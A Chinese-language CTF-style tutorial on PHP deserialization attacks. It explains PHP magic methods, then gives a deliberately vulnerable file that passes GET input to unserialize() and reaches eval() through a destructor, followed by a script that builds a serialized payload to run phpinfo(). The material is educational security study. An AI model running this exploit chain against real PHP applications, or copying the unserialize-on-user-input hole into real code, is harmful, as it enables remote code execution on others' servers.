 一些函数介绍：

1.__construct():创建对象时调用（相当于c++的构造函数）

2.__destruct():销毁对象的时候调用。（相当于c++的析构函数）

3.__sleep():serialize()执行序列化时调用。

4.__weakup():unserialize()函数执行反序列化时调用。

5.__toString():操作字符串时调用。

6.__get() :当从不可访问的属性读取数据

7.__call(): 在对象上下文中调用不可访问的方法时触发



2.下面以__destruct()作为例子讲解一下利用流程，其原理都是自动触发魔法函数，篡改属性内容达到攻击目的。

__destruct()函数类似于C++中的析构函数，当对象销毁时调用

下面我们来看一个可利用代码文件

```javascript
<?php

class test{
    private $test;
    public $test1="i am hacker";
// 创建一个对象时执行，
// 反序列化只是将已经序列化好的数据还原，并不是重新执行了一遍函数，所以不存在创建对象，所以无法执行construct()魔法函数
    function __construct(){
        $this->test=new L();
    }

// 当对象销毁时执行该函数
    function __destruct(){
        // 将此处的$this->test对象篡改Evil类的对象
        // 如:$this->test=new Evil;
        // 此时在执行该函数时,就变成了Evil的对象执行action()函数
        $this->test->action();
    }
}

class L{
    function action(){
        echo "welcome to hack";
    }
}

// 该方法有一个可以利用的函数，eval()。
// eval()函数将字符串解析成php代码来执行
class Evil{
    // 前面已经执行了action()
    // 只需将$test2属性修改为可执行代码,eval()函数就将执行
    var $test2;
    function action(){
        eval($this->test2);
    }
}

unserialize($_GET['test']);

```



所以该代码的利用思路就是:

1.利用反序列化漏洞篡改__destruct()函数中的this->test=new Evil;使他成为Evil的一个对象

 2.篡改$test2=恶意代码，让eval()函数执行

通过脚本构造payload:

```javascript
<?php

class test{
    private $test;

    function __construct(){
        $this->test=new Evil;
    }
}

class Evil{
    var $test2="phpinfo();";
}

$data=new test;
$data=serialize($data);
echo "$data";
```

脚本在浏览器上输出：

```javascript
O:4:"test":1:{s:10:"testtest";O:4:"Evil":1:{s:5:"test2";s:10:"phpinfo();";}}
```



需要注意的是：提交payload时需要将"testtest"私有属性改为”%00test%00test"

具体原因请见序列化的三种权限

将得到的序列化代码提交，成功利用漏洞

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/序列化与反序列化/images/5C7D1D975816476ABD32C3236D3F9832clipboard.png)


